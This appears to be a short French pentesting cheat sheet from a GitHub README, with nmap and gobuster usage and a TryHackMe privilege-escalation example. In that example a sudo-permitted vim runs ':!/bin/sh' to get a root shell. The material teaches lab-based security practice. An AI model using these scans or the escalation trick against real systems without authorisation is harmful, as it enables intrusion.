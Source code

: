 # Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version des services existants sur les ports
* -sC : affiche les scripts par défaut qui sont activés sur les ports

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -Pn -sV 10.10.188.70```

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -sC 10.10.188.70```

### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root



